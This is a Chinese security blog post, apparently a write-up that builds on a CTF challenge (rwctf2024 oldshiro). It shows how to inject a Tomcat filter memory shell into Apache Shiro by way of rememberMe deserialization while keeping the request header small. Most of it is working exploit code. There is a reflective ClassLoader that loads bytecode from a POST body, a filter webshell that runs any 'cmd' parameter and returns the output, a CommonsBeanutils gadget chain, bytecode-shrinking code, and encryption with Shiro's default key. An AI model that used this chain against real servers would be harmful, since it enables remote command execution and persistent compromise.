




# 简化请求头向 shiro 注入内存马 - 先知社区

#### 前言

该思路源自 rwctf2024 体验赛 oldshiro，在原题当中 wp 使用了 javassist 生成字节码的方式最终读取到了给出 docker 环境中的 flag，由于在比赛的时候 docker 环境作为比赛的 hint 放出了，当中 flag 的位置是已知的。这就导致我们不必使用回显内存马这种权限维持的方法，直接采用文件读取的方式就可以获得 flag。所以就引发了一个思考，如果我们将 wp 当中的手段放在内存马注入上面，究竟能够将注入内存马的 http 请求头缩短至多少呢？（ps：这个思路事实上也是我在 HSCCTF2024 当中的出题思路，但是由于各种原因当时的题目出烂了，不仅“不出网”的设置没搞好，而且 http 的 maxheader 也设置的过于宽松了）

#### 实验环境

[实验环境及攻击脚本](https://github.com/XA-hey/shortshiromemshell)

#### POST 方式注入内存马

在最一开始的时候，为什么需要对内存马注入 payload 的大小作出改变呢？在正常的 tomcat 当中其默认的最大请求头大小 (maxheader) 就不足以承载整个内存马代码，引发了后续的各种绕过 maxheader 限制的方式。在当前的市面上有着三种方式

```plain
1.通过反射修改 maxhttpheadersize
2.将 class bytes 使用 gzip+base64 压缩编码
3.从 POST 请求体中发送字节码数据
```

为了契合这篇文章的主题，我们这里选择第三种方式作为内存马的注入方式。虽然这个注入方式并不是本文介绍的主题但还是要少尉讲解一下其中的内容。

post 方法注入内存马方法的本质是通过动态类加载的方式，实现内存马注入。动态类加载在 CC6 链子学习的时候就已经有所了解，不管是本地的加载字节码，还是远程加载的字节码，都会经历三个阶段：`ClassLoader#loadClass->ClassLoader#findClass->ClassLoader#defineClass`，defineClass 的作用是处理传入的字节码，将其处理成真正的 Java 类。所以到这里思路其实就有了，使用动态类加载的方式加载内存马的字节流，将其转换成真正的内存马对象最后实现注入。内存马的字节流对象放在 post 请求中的 body 里面，让实现了动态类加载的类去 body 里面获取。为此我们需要去写一个能够动态类加载的 Classloader。

##### Myclassloader 的实现

Myclassloader 要实现两个功能：1.从 post 的请求体当中获取内存马的字节流对象，2.动态加载内存马对象。

首先是从 post 的请求体当中获取内存马的字节流对象，毫无疑问我们需要 request 对象，在这一步中我们可以参考之前在内存马当中所写的获取 request 对象的过程。

```plain
javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
Field r = request.getClass().getDeclaredField("request");
r.setAccessible(true);
```

动态加载方法，我们可以通过反射的方式从 ClassLoader 里面获取 defineclass 函数用来加载我们从 post 当中获取的内存马字节流

```plain
java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
defineClassMethod.setAccessible(true);
Class cc = (Class) defineClassMethod.invoke(new ClassLoader(){}, classBytes, 0, classBytes.length);
```

二者结合一下我们最终得到了 MyClassLoader 的最终实现。

```plain
public class MyClassLoader extends AbstractTranslet {
    static{
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            Field r = request.getClass().getDeclaredField("request");
            r.setAccessible(true);
            //从 post 请求体里面拿到内存马的 base64 字符串
            String classData=request.getParameter("classData");
            System.out.println(classData+"\n");
            //解码内存马的 base64 字符串，得到内存马的字节流
            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            //动态类加载内存马
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
            //触发内存马注入
            cc.newInstance();
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
```

上面的的话对内存马字节流的传输进行了解码处理，所以在传输的时候我们也需要对内存马的字节流进行编码

##### 内存马准备

内存马的话就随便找一个能用就行，这里以 filter 内存马为例，事实上其他的也可以 interceptor 等等。

```plain
public class EvilFilter extends AbstractTranslet implements Filter{

    static {
        try {
            //StandardContext
            System.out.println("StandardContext");
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
            //FilterDef
            Filter filter = new EvilFilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(filter);
            filterDef.setFilterName("EvilFilter");
            filterDef.setFilterClass(filter.getClass().getName());
            context.addFilterDef(filterDef);
            System.out.println("FilterDef");
            //FilterConfig
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
            Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
            field1.setAccessible(true);
            Map filterConfigs = (Map)field1.get(context);
            filterConfigs.put("EvilFilter", filterConfig);
            System.out.println("FilterConfig");
            //FilterMap
            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("EvilFilter");
            filterMap.addURLPattern("/*");
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            context.addFilterMap(filterMap);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
            //回显处理
        Process process = Runtime.getRuntime().exec(cmd);
        InputStream inputStream = process.getInputStream();
        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(inputStream));
        String line;
        StringBuilder stringBuilder = new StringBuilder();
        while ((line = reader.readLine()) != null){
            stringBuilder.append(line + "\n");
        }
        ServletOutputStream servletOutputStream = servletResponse.getOutputStream();
        servletOutputStream.write(stringBuilder.toString().getBytes());
        servletOutputStream.flush();
        servletOutputStream.close();
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
    }
}
```

然后准备一个可以对内存马进行编码的脚本

```plain
public class Base64Client {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(EvilFilter.class.getName());
        byte[] payloads = clazz.toBytecode();

        byte[] classData = java.util.Base64.getEncoder().encode(payloads);
        System.out.println(new String(classData));
    }
}
```

这里需要注意一点，经过实测 classData 当中的内存马字节流的 base64 编码字符串还要进行 url 编码才能正常运作

效果如下（使用 CB 链装载 MyclassLoader，放在 rememberme 当中。使用市面上常用的关于 shiro 攻击的 rememberme 加密脚本即可）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240315152727-79baa77c-e29d-1.png)

#### 如何简化请求头

在 rwctf wp 当中所给出的两个参考文章

[https://mp.weixin.qq.com/s?\_\_biz=Mzk0MTIzNTgzMQ==&mid=2247489588&idx=1&sn=0aa89b8828dc3e058ddbef69e2980790&chksm=c2d4d32cf5a35a3a54d164198cf7a29bea915a8c0e00d76d47231090cec35630f393ecd5d89d&scene=21](https://mp.weixin.qq.com/s?__biz=Mzk0MTIzNTgzMQ==&mid=2247489588&idx=1&sn=0aa89b8828dc3e058ddbef69e2980790&chksm=c2d4d32cf5a35a3a54d164198cf7a29bea915a8c0e00d76d47231090cec35630f393ecd5d89d&scene=21#wechat_redirect)

[https://xz.aliyun.com/t/6227](https://xz.aliyun.com/t/6227)

其中的参考文章主要的内容是三种缩减的方式（除分片传输以外）。

第一种，是通过减少 payload 本身字符串当中的一些内容，将涉及到字符串的部分都压缩到最少。

第二种使用 javassist 动态生成字节码，将需要使用的代码段放在字符串对象当中，然后使用 javassist 动态创建一个类。

第三种使用 ASM 删除 LINENUMBER 指令。

针对第一种手段我们能够改变逻辑的部分在于 CB 链 payload 的生成代码以及 MyClassLoader 的异常处理部分，就像参考文章当中给出的我们可以减少 TemplatesImpl 当中的`_name`字段的值，以及整个`_factory`字段。最终 CB 链的 payload 如下

```plain
public class CommonsBeanutils1Shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "t");

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }
}
```

MyClassLoader 的代码如下（仅仅改了异常处理，将异常处理设为忽略）：

```plain
public class MyClassLoader extends AbstractTranslet {
    public MyClassLoader(){
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            Field r = request.getClass().getDeclaredField("request");
            r.setAccessible(true);
            String classData=request.getParameter("classData");
            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
            cc.newInstance();
        }catch (Exception ignored){
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

针对于上述的剩下两种种手段，其实在这种应用场景之下能够使用的是第三种，由于 Myclassloader 本身逻辑的复杂性，我们无法使用 javassist 动态生成出来，比如我们使用如下的代码段企图生成 Myclassloader 类

```plain
public static void main(String[] args) throws Exception {
        String cmd = "calc";
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass("MyClassLoader");
        CtClass superclass = classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superclass);
        CtConstructor constructor = ctClass.makeClassInitializer();
        constructor.setBody("try{\n" +
                "            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();\n" +
                "            java.lang.reflect.Field r = request.getClass().getDeclaredField(\"request\");\n" +
                "            r.setAccessible(true);\n" +
                "            String classData=request.getParameter(\"classData\");\n" +
                "            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);\n" +
                "            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod(\"defineClass\",new Class[]{byte[].class, int.class, int.class});\n" +
                "            defineClassMethod.setAccessible(true);\n" +
                "            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);\n" +
                "            cc.newInstance();\n" +
                "        }catch (Exception ignored){\n" +
                "        }");
        byte[] bytes = ctClass.toBytecode();
        //让这个类允许被修改
        ctClass.defrost();

    }
```

由于上述 setBody 当中有 defineClassMethod.invoke 字段，而 defineClassMethod 他是 java.lang.reflect.Method 对象，它使用 invoke 触发方法的时候会引发`invoke(java.lang.ClassLoader,byte[],int,int) not found in java.lang.reflect.Method`错误，没有正确的将 defineClassMethod 识别成 defineclass。因此这种手段就可以排除掉了。

所以，我们就仅剩下当前使用 ASM 删除 LINENUMBER 指令的方法了，我们只需要将参考文章里面的内容拿过来即可，也就是下面的三个函数。

```plain
public static byte[] shortenClassBytes(byte[] classBytes) {
        ClassReader cr = new ClassReader(classBytes);
        ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        int api = Opcodes.ASM7;
        ClassVisitor cv = new ShortClassVisitor(api, cw);
        int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
        cr.accept(cv, parsingOptions);
        byte[] out = cw.toByteArray();
        return out;
    }
    public static class ShortClassVisitor extends ClassVisitor {
        private final int api;
        public ShortClassVisitor(int api, ClassVisitor classVisitor) {
            super(api, classVisitor);
            this.api = api;
        }
        @Override
        public MethodVisitor visitMethod(int access, String name, String descriptor, String signature, String[ ] exceptions) {
            MethodVisitor mv = super.visitMethod(access, name, descriptor, signature, exceptions);
            return new ShortMethodAdapter(this.api, mv);
        }
    }
    public static class ShortMethodAdapter extends MethodVisitor implements Opcodes {
        public ShortMethodAdapter(int api, MethodVisitor methodVisitor) {
            super(api, methodVisitor);
        }
        @Override
        public void visitLineNumber(int line, Label start) {
            // delete line number
        }
    }
```

在处理完这些东西之后，基本上就已经结束了，在参考文章当中曾提到有两个函数是必要的，也就是因为继承 AbstractTranslet 带来的两个 transform 方法。这两个 transform 方法没有只是会通不过编译器的编译而已，但是并不意味着代码没有办法正常运行。所以可以使用 javassist 操控字节码的特性对目标方法进行删除。

```plain
ClassPool classPool = ClassPool.getDefault();
CtClass clazz = classPool.get(MyClassLoader.class.getName());
CtMethod ctMethod = clazz.getDeclaredMethod("transform");
clazz.removeMethod(ctMethod);
```

最终得到如下的 payload 生成代码

```plain
public class Client1 {
    public static void main(String []args) throws Exception {

        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.get(MyClassLoader.class.getName());
        CtMethod ctMethod = clazz.getDeclaredMethod("transform");
        clazz.removeMethod(ctMethod);
        byte[] old_payload = shortenClassBytes(clazz.toBytecode());
        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(old_payload);
        //byte[] payloads = new CommonsBeanutils1Shiro().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.println(ciphertext.toString().length());
    }

    public static byte[] shortenClassBytes(byte[] classBytes) {
        ClassReader cr = new ClassReader(classBytes);
        ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        int api = Opcodes.ASM7;
        ClassVisitor cv = new ShortClassVisitor(api, cw);
        int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
        cr.accept(cv, parsingOptions);
        byte[] out = cw.toByteArray();
        return out;
    }
    public static class ShortClassVisitor extends ClassVisitor {
        private final int api;
        public ShortClassVisitor(int api, ClassVisitor classVisitor) {
            super(api, classVisitor);
            this.api = api;
        }
        @Override
        public MethodVisitor visitMethod(int access, String name, String descriptor, String signature, String[ ] exceptions) {
            MethodVisitor mv = super.visitMethod(access, name, descriptor, signature, exceptions);
            return new ShortMethodAdapter(this.api, mv);
        }
    }
    public static class ShortMethodAdapter extends MethodVisitor implements Opcodes {
        public ShortMethodAdapter(int api, MethodVisitor methodVisitor) {
            super(api, methodVisitor);
        }
        @Override
        public void visitLineNumber(int line, Label start) {
            // delete line number
        }
    }

}
```

最终能够得到 cookie 的长度为，这个长度相较于之前已经足够小了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240315152755-8a64b4fa-e29d-1.png)

但是我们在这里既然要提到关于请求头的缩小，简化请求头注入内存马，而服务器过滤的原则是针对于整个请求头。对于 cookie 的简化我们也许已经到了相当简化的地步了，可是原有的请求头数据就没有冗余吗？答案是肯定有。所以就有了下面的测试。经过多次删除请求头可以测试出如下的数据包头

```plain
POST /doLogin HTTP/1.1
Host: 127.0.0.1:8080
Cookie: rememberMe=(MyclassLoader 的 payload)
Content-Type: application/x-www-form-urlencoded
Content-Length: 25623
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240315152808-92169678-e29d-1.png)

内存马测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240315152818-985e39e6-e29d-1.png)

其最终可以将 http 头大小限制在 3600 左右。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240315152831-9f97874e-e29d-1.png)

#### 参考文章

[https://mp.weixin.qq.com/s?\_\_biz=Mzk0MTIzNTgzMQ==&mid=2247489588&idx=1&sn=0aa89b8828dc3e058ddbef69e2980790&chksm=c2d4d32cf5a35a3a54d164198cf7a29bea915a8c0e00d76d47231090cec35630f393ecd5d89d&scene=21](https://mp.weixin.qq.com/s?__biz=Mzk0MTIzNTgzMQ==&mid=2247489588&idx=1&sn=0aa89b8828dc3e058ddbef69e2980790&chksm=c2d4d32cf5a35a3a54d164198cf7a29bea915a8c0e00d76d47231090cec35630f393ecd5d89d&scene=21#wechat_redirect)

[https://xz.aliyun.com/t/6227](https://xz.aliyun.com/t/6227)

rwctf 体验赛 2024
